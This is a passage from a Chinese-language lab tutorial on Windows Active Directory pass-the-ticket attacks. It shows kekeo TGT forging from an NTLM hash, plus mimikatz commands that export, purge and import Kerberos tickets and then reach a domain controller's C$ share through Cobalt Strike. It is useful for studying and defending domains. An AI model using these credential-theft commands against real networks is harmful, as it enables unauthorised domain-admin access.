

### 4.4.6. 测试

这里我没成功，原因具体还不太清除，有说AD域证书没装，也有说其它原因，不得而知了，我测试到最后的时候一直显示“系统检测到危害安全的尝试”。

同时也有可能我的这个Windows server 2012中打了什么补丁，但是我查了一下，并没有补丁，这里就不得而知了，同时我将环境全部恢复重新搭建依旧是这个情况。

不过从网上得到的结果是已经成功进去了，但是可能存在威胁操作，被拒绝了。



## 4.5. kekeo演示

kekeo需要使用到高权限，利用NTLM生成新的票据，使用我感觉有点鸡肋吧，我都已经拿到高权限了，我还干嘛去走这一步？这里是高权限其实是由于需要获取到密码hash，在cs中获取到密码hash是需要使用到高级权限的。

同样这个也是利用票据，可能还是会在某些情况下使用到。

[kekeo下载地址](https://github.com/gentilkiwi/kekeo/releases/tag/2.2.0-20211214)

kekeo是利用自己获取到的hash值重新生成票据来验证。

### 4.5.1. 获取密码

通常在域内的时候，由于域主机都不是最高权限，所以有时候遇到一些问题，需要域控管理员来操作，而在操作过程中就会输入域控的账号密码，来验证权限，这时候，就会在域主机上留下凭证。

而我们就可以利用这个域控凭证来获取权限，而且还需要提权，感觉没什么必要测试这个了。

这里使用高权限的来获取hash值后，去操作低权限的来导入凭证，其实这里还是有点作用的，比如说，域内主机很多，其中一条主机是有域控的hash的，但是由于打了补丁，或者等操作，无法利用，而有一台主机没打补丁，但是没有域控信息，那么就可以将两者主机信息结合起来利用。



### 4.5.2. 清空票据

还是为了防止出现其它问题。

```
mimikatz kerberos::purge 清除凭证
mimikatz kerberos::list 查看当前凭证
```


### 4.5.3. 生成票据

这里我发现，好像kekeo好像是有验证，使用域用户账号和域控主机的hash值，好像无法生成这个验证。需要对应起来。同时我测试了，由于你是上传kekeo到目标靶机上的，同时kekeo是需要进入操作，如果你不添加一个exit退出，那么就会在对方桌面上留存一个黑框框，同时你的cs会一直返回大量无用信息。

```
shell kekeo.exe "tgt::ask /user:administrator /domain:yuto.com /ntlm:579da618cfbfa85247acf1f800a280a4" "exit"
```



### 4.5.4. 导入票据

这里导入票据也是一样的，名字是你生成的那个。

```
shell kekeo.exe "kerberos::ptt TGT_administrator@YUTO.COM_krbtgt~yuto.com@YUTO.COM.kirbi" "exit"
```



### 4.5.5. 查看票据

可以看到这里只有我们刚刚生成的一条数据。

```
mimikatz kerberos::list
```



### 4.5.6. 测试

可以看到这里是成功返回数据了，主要这里我是使用低权限的会话来操作的，不要使用成提权的system来读取数据哦。

```
shell dir \\WIN-RLI2SL6FGBD\c$
```



## 4.6. 利用本地票据演示

简单来说利用本地票据就是将域主机上历史票据导出，然后利用历史票据去验证，不过执行命令需要高权限，可能就需要进行提权了。

同时要求也是域管有没有登陆过这台主机，如果没登陆过，那么无法验证成功，如果登陆过就会留下历史凭证，这时我们只要找到这个凭证就能够成功登陆进去。

### 4.6.1. 获取历史票据

这里先将所有的历史票据导出，在你这个进程所在的目录下，就会产生很多的前面是"[XXX]"的新票据，这里我就不截图了。

```
mimikatz sekurlsa::tickets /export
```



### 4.6.2. 清空票据

为了严谨，这里还是需要将所有现阶段的票据清空。

```
mimikatz kerberos::purge 清除凭证
mimikatz kerberos::list 查看当前凭证
```



### 4.6.3. 导入票据并测试

这里你可以看是成功导入票据了，并且也测试成功了，不过需要注意的时候，由于导出的历史票据很多，如果是真实情况下，那么会更过，所以需要一条一条测试才可以，我也是找到一个administrator信息导入成功的。

好像还有时间限制哦，我测试完，一会就无法登陆了。

```
mimikatz kerberos::ptt C:\gx\[0;1b1c3]-0-0-40a50000-administrator@cifs-win-rli2sl6fgbd.yuto.com.kirbi  导入票据
shell dir \\WIN-RLI2SL6FGBD\c$  测试
```



## 4.7. 总结

像pth、smb、wmi、ps利用这些都需要使用到smb或者wmi的协议是正常状态下，也就是上面介绍到的pth与ptk都需要相应的协议正常，而且如果这些协议不正常才会去使用到票据的验证。

关于票据整体的思路就是，我获取到一台域内主机后，而域内主机在前期配置过程中的时候，域控管理员正常都会登陆过域控账号密码，而在此后域内主机就会留下该票据，而我们进行操作的时候，就是将这些遗留下的票据调用起来，让票据去验证，只要管理员没有定期去修改域控的账号密码，那么票据就能够验证成功，我们也就相当于成功借用票据，将一个普通用户未造成一个管理员。
